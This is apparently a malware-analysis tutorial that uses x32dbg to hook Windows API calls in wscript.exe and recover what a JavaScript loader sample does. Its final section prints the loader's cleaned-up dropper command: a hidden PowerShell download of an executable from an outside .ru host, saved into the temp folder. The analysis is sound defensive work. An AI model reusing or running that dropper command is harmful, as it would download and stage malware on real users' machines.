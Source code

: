 ##Hooking-Windows-API-Functions-to-Analyze-JavaScript-VBScript-loaders
***Overview*** 

Original idea credits go to Open Analysis Labs(OALabs). This will cover using a debugger to hook standard Windows API function calls used in JavaScript/VBScript loaders used in malware to analyze the original loader.  

***Tools***

- JavaScript Loader Sample.  `Hash: 7616fd825e223fb6f7bfdc0c025a2cf0196b8959cad69eda959c21a7d31e71d5`

- x32/64dbg

***Understanding wscript.exe***

Essentially when Windows runs a JavaScript/VBScript, which calls Windows API functions, it will use wscript.exe as a middle man between the script and the Windows API.

It looks something like the following:

`loader.js -> wscript.exe -> ShellExecuteA`

***Some common function calls used in cases like this are:***

WSASocketW  GetAddrInfoExW  WSASend 

WSAStarup    URLDownloadToFile  ShellExecuteA

ShellExecuteExW 

***Common DLLs:***

shell32.dll and ws2_32.dll

***Technical Begin***

Attach the debugger to wscript.exe located at `C:\Windows\SysWOW64\wscript.exe`

Provide the path to the script file so wscript.exe can execute it. You can do this in x32dbg by going to `File -> Change Command Line`

At this point, you should be ready to go. In the case of this loader, we need to set a breakpoint on shell32.dll. We can not set breakpoints yet on the function calls because they have not been imported yet hence why we need to break on the import of shell32.dll and then move forward on setting up hooks (Breakpoints) on the common function calls. 

Navigate to Breakpoints and in the Command section at the bottom, set a breakpoint on shell32.dll, and then you should see it enabled. 

![image](https://user-images.githubusercontent.com/95584654/158504637-ce708340-f9fd-4aa7-a937-fb755e69bf91.png)


At this point, you can start the debugger and continue until you hit the breakpoint to load the shell32.dll. Looking at the Breakpoint page, we can see that we have one hit on our breakpoint. Navigate to the Symbols page and click on shell32.dll. At this point, you can see all of the symbols. Filter for ShellExecuteExW and set a hook (Breakpoint) on it. 

![image](https://user-images.githubusercontent.com/95584654/158504684-d978c75f-423c-4929-8a4d-6a5892ae803c.png)


After setting the breakpoint, continue debugging and you should hit the breakpoint on ShellExecuteExW. We want to look at the parameters for the function that were pushed on the stack—looking at the MSDN documentation for ShellExecuteExW. The only "parameter" is a pointer to the SHELLEXECUTEINFOW structure. 

Looking at the structure, the two main parameters we want to look at are LPCSTR lpVerb and LPCSTR lpFile. 

You can read about the structure here: https://docs.microsoft.com/en-us/windows/win32/api/shellapi/ns-shellapi-shellexecuteinfoa 

Since we hit our hook on the ShellExecuteExW, we can look at the stack to identify the parameters for the SHELLEXECUTEINFOW structure. 

![image](https://user-images.githubusercontent.com/95584654/158504728-ec02b60c-58f1-45de-8dcc-8f6419620306.png)


We can see the cleartext parameters used in the dropper by doing this. At this point, we can right-click on those lines and select

`Copy -> Copy Selected Lines`

It is calling PowerShell as we can see. Let's take a look at the cleaned up command below: 

```
cmd "/c start /b powershell -WindowStyle Hidden 
$http_request = New-Object -ComObject Msxml2.XMLHTTP;
$adodb = New-Object -ComObject ADODB.Stream;
$path = $env:temp + '\\1079.exe';
$http_request.open('GET', 'http://kanalmalakotv.ru/documenty/pax18.exe?rnd=12802', $false);
$http_request.send();
if($http_request.Status -eq \"200\"){$adodb.open();$adodb.type = 1;$adodb.write($http_request.responseBody);
$adodb.position = 0;
$adodb.savetofile($path);
$adodb.close();}
```
